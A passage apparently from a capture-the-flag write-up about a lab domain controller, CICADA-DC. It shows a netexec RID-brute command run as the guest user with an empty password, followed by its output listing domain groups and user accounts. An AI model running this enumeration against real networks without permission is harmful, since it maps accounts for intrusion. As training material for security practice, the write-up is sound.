 ```
```

I’ll note that password.

#### Rid Cycling

I’ll use `netexec` to brute force user ids from 0 to 4000:

```

oxdf@hacky$ netexec smb CICADA-DC -u guest -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

```
